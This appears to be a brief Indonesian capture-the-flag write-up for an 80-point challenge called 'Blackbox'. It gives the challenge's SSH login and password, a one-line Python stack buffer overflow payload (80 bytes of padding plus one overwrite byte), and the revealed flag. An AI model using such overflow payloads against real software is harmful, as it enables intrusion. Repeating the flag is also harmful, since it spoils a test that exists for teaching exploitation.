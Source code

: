 # Blackbox (80 Points)
What is 1 + 1? Run the command: ssh blackbox@104.131.79.111 -p 1001 (pw: guest).
# Solved
Disini saya mendapatkan Bufferoverflow pada stack <b>80</b> kemudian saya jalankan perintah ini
```console
$ python -c "print 'A' * 80 + '\x02'" | ./blackbox
What is 1 + 1 = CORRECT! You get flag:
flag{0n3_4lus_1_1s_Tw0_dumm13!!}
```
Flag : <b>flag{0n3_4lus_1_1s_Tw0_dumm13!!}</b>
